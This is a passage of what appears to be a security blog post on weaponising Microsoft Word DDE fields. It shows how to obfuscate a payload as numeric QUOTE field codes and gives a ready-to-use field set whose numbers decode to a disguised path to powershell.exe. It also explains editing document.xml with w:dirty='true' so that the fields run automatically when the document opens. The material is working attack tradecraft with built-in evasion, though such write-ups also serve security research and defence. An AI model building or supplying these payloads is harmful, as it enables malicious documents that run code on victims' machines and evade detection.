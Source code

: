 The QUOTE field can be supplied with a characters ordinal value and it will automatically convert this to the corresponding character (I can't find the reference for this unfortunately). As an example, if we wanted to find the character represented by the value 65, we could use the following field in Word:

```
{ QUOTE 65 }
```
Which would end up displaying **A** rather than **65**, which is exactly what we are looking for. We can now represent our payload as integers and have word automatically convert this to a string before executing our DDE. The full set of field codes to make this work would be:

```
{SET c "{QUOTE 65 65 65 65}"}
{SET d "{QUOTE 71 71 71 71}"}
{DDE {REF c} {REF d}}
```

This effectively becomes:
```
{DDE "AAAA" "GGGG"}
```

At this point you can use your imagination and figure out that we would replace **AAAA** and **GGGG** with our relevant payloads. To make this easier, I wrote a quick python script that simply converts a given string into the equivalent QUOTE field.

[str2quote.py](https://gist.github.com/staaldraad/df29bd1a840cb53ed2819c1980143166)

To pop powershell, we can now use the following:

```
{SET C "{QUOTE 67 58 92 92 80 114 111 103 114 97 109 115 92 92 77 105 99 114 111 115 111 102 116 92 92 79 102 102 105 99 101 92 92 77 83 87 111 114 100 46 101 120 101 92 92 46 46 92 92 46 46 92 92 46 46 92 92 46 46 92 92 119 105 110 100 111 119 115 92 92 115 121 115 116 101 109 51 50 92 92 119 105 110 100 111 119 115 112 111 119 101 114 115 104 101 108 108 92 92 118 49 46 48 92 92 112 111 119 101 114 115 104 101 108 108 46 101 120 101} "}
{DDE {REF C}  "a"}
```

## Dirty links

One thing to note, is that the DDEAUTO is auto updated when the document opens, as the name implies. However, not all field codes are automatically updated unless we have "update links" set on the document. To do this (there might be an easier way than mine), we need to either mark our links as "dirty" or change the document to auto update links.

Once you've created your .docx, you can open the archive with an archive manager and then you need to edit *document.xml*. To mark links as being *dirty* and requiring update add the `w:dirty="true"` to each *begin* `<w:fldChar>`:

```
  <w:fldChar w:fldCharType="begin" w:dirty="true"/>
```

Save document.xml and update the archive. Now when you open the .docx, all links will be auto updated. You also receive the much cleaner "Do you want to update" dialog.
